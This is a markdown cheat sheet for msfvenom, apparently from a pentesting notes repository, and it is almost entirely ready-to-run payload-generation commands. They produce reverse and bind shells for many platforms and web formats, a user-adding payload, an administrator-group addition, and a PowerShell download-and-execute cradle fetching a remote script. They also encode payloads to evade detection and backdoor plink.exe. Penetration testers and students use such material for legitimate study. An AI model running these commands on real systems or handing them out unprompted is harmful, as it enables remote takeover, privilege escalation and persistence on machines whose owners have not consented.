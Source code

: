 # MSFVenom

## Usage
- msfvenom -p \<PAYLOAD\> -e \<ENCODER\> -f \<FORMAT\> -i \<ENCODE COUNT\> LHOST=\<IP\>


## Commands
### Payloads
- msfvenom -l payloads 

### Encoders
- msfvenom -l encoders 


### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
- EXITFUNC=thread
- PrependSetuid=True #Use this to create a shellcode that will execute something with SUID


## Shells
### Reverse 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe


## Payloads
### Add user
- msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
- msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
- msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
- msfvenom -p cmd/unix/reverse_bash LHOST=\<Local IP Address\> LPORT=\<Local Port\> -f raw > shell.sh

